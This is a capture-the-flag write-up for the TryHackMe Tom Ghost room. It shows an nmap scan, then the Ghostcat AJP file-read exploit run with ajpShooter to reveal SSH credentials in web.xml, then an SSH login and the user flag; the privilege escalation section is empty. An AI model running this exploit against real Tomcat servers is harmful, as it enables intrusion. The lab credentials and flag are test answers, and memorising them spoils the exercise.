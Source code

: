 # Tom Ghost Cat
[Play](https://tryhackme.com/room/tomghost)

## Recon
```
❯ nmap -sC -sV -A -T4 10.10.218.100
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 21:58 EST
Nmap scan report for 10.10.218.100
Host is up (0.18s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.05 seconds
```

This machine shows no port on `80`, which explains the reason why Firefox was shouting at me. I looked up for `AJP` and `Tomcat` and all such combinations. The exploit seems interesting to look a bit deeper into. [This](https://book.hacktricks.xyz/pentesting/8009-pentesting-apache-jserv-protocol-ajp) explains the innerworkings of this service and what we could expect going forward. This [APJ 13 Vulnerability](https://medium.com/@prem2/ghostcat-vulnerability-cve-2020-1938-ajp-lfi-apache-tomcat-server-vulnerability-9f57330e3eb1) explains how `WEB-INF/web.xml` is a good starting point. 

Looking up more, we have this tool, called [ajshooter](https://github.com/00theway/Ghostcat-CNVD-2020-10487). We see this command plays well with the above explaination. `python3 ajpShooter.py http://10.10.218.100:8080 8009 /WEB-INF/web.xml read`


We get:
```
❯ python3 ajpshooter.py http://10.10.218.100:8080 8009 /WEB-INF/web.xml read

       _    _         __ _                 _            
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __ 
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |   
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|   
         |__/|_|                                        
                                                00theway,just for test
    

[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

With no other port open, its safe to say that those are ssh credentials :D

## Foothold

```
❯ ssh skyfuck@10.10.218.100
The authenticity of host '10.10.218.100 (10.10.218.100)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.218.100' (ECDSA) to the list of known hosts.
skyfuck@10.10.218.100's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

```
skyfuck@ubuntu:/home/merlin$ cat user.txt 
THM{stonks}
```

## PrivEsc

